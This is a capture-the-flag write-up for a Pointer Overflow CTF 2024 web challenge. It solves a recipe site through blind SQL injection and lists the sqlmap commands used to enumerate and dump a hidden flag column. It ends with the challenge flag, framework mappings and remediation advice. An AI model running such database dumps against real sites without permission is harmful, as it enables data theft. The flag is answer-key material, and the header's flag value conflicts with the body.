

# The Color Drained from His Face

| Detail | Value |
|--------|-------|
| **CTF** | Pointer Overflow CTF 2024 |
| **Category** | ID |
| **Difficulty** | Unknown |
| **Points** | N/A |
| **Flag** | `poctf{dynamic}` |
| **Status** | Solved |

---

## Challenge Overview

A web challenge involving a recipe website with a hidden SQL injection vulnerability. A Zalgo-text entry on the homepage hints at SQL injection. The search bar is vulnerable to boolean-based blind and time-based blind SQLi against a SQLite backend. Using sqlmap to enumerate the database reveals a `flag` column in the `recipes` table.

---

## Objective

Exploit the SQL injection vulnerability in the search feature to dump the flag from the database.

---

## Methodology

### Step 1: Explore the recipe website

The homepage shows various recipes. Scrolling reveals an entry with distorted Zalgo text:



### Step 2: Decode the Zalgo text

Copying the distorted text and cleaning it with an [unzalgo tool](https://unzalgo.com/) reveals:

```
Secrets Quelled Lurking Summon Quiescent Leviathans Shadows Quiver
Lamenting Specters Quietly Looming
```

The initials spell out **SQL SQL SQL**, a strong hint for SQL injection.

### Step 3: Test for SQL injection

Entering a single quote `'` in the search bar returns an Internal Server Error, confirming the injection point. A semicolon `;` triggers a humorous "hacker" response, indicating input filtering.

### Step 4: Enumerate the database with sqlmap

**Identify the DBMS:**

```bash
sqlmap -u "http://<host>/search?query=1" --batch --dbs --level 5
```

Result: SQLite backend with boolean-based blind and time-based blind injection vectors.

**Find tables:**

```bash
sqlmap -u "http://<host>/search?query=1" --batch --tables --level 5
```

Result: one table named `recipes`.

**Enumerate columns:**

```bash
sqlmap -u "http://<host>/search?query=1" --batch -T recipes --columns --level 5
```

Result:

| Column       | Type    |
|-------------|---------|
| id          | INTEGER |
| title       | TEXT    |
| content     | TEXT    |
| ingredients | TEXT    |
| instructions| TEXT    |
| flag        | TEXT    |

### Step 5: Dump the flag column

```bash
sqlmap -u "http://<host>/search?query=1" --batch -T recipes -C flag --dump --level 5
```

Result:

```
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| poctf{uwsp_7h3_5leep3r_mu57_4w4k3n} |
+---------------------------------------+
```

---

## Flag

```
poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}
```

---

## Lessons Learned

| # | Lesson | Detail |
|---|--------|--------|
| 1 | Zalgo text can hide clues | Obfuscated text can contain meaningful messages |
| 2 | Semicolon filtering is insufficient | Blocking `;` does not prevent boolean/time-based blind SQLi |
| 3 | sqlmap automates blind injection | Level 5 scans detect complex injection patterns |
| 4 | Always check hidden columns | A `flag` column is not visible from the application UI |

---

## MITRE ATT&CK Mapping

| Tactic          | Technique                          | ID        |
|-----------------|------------------------------------|-----------|
| Initial Access  | Exploit Public-Facing Application  | T1190     |
| Collection      | Data from Information Repositories | T1213     |
| Credential Access | Unsecured Credentials            | T1552     |

---

## OWASP Top 10 2021 Mapping

| Category | ID    | Relevance |
|----------|-------|-----------|
| Injection | A03:2021 | SQL Injection (boolean-based blind, time-based blind) |
| Security Misconfiguration | A05:2021 | Verbose error messages on injection |

---

## Remediation

### Technical Fixes
- Use parameterized queries (prepared statements) for all database operations
- Implement proper input validation with allowlisting
- Deploy a Web Application Firewall (WAF) with SQLi rules
- Suppress detailed error messages in production

### OWASP Top 10 2021
- **A03 Injection**: use parameterized queries exclusively; never concatenate user input into SQL
- **A05 Security Misconfiguration**: disable verbose error pages in production

### D3FEND Countermeasures
| Technique                  | ID        |
|----------------------------|-----------|
| Application Hardening      | D3-AH     |
| Database Query String Normalization | D3-DQSN |

### NIST CSF 2.0
| Function | Category                | Subcategory |
|----------|------------------------|-------------|
| Protect  | Platform Security      | PR.PS-01    |
| Detect   | Adverse Event Analysis | DE.AE-01    |

### NIST SP 800-53 Rev. 5
| Control     | Description                          |
|-------------|--------------------------------------|
| SI-10       | Information Input Validation         |
| SI-11       | Error Handling                       |
| AC-3        | Access Enforcement                   |

### C2M2
| Practice Area               | MIL |
|-----------------------------|-----|
| Threat and Vulnerability Management | MIL3 |

### CWE
| ID      | Name                                     |
|---------|------------------------------------------|
| CWE-89  | Improper Neutralization of Special Elements used in an SQL Command |
| CWE-209 | Generation of Error Message Containing Sensitive Information |

---

## References

- Based on solve approach from [Jdwalli](https://github.com/Jdwalli/ctf-writeups)
- [sqlmap](https://sqlmap.org/)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Closing

Thanks guys!! (❍ᴥ❍ʋ)

The sleeper must awaken, and so must your awareness of SQL injection. When the search bar talks back with 500 errors, it's practically begging to be tested. Parameterized queries: use them, love them, never skip them.

[](https://www.instagram.com/uniaogeek)
[](http://linkedin.com/in/mrhenrike)
[](https://x.com/mrhenrike)
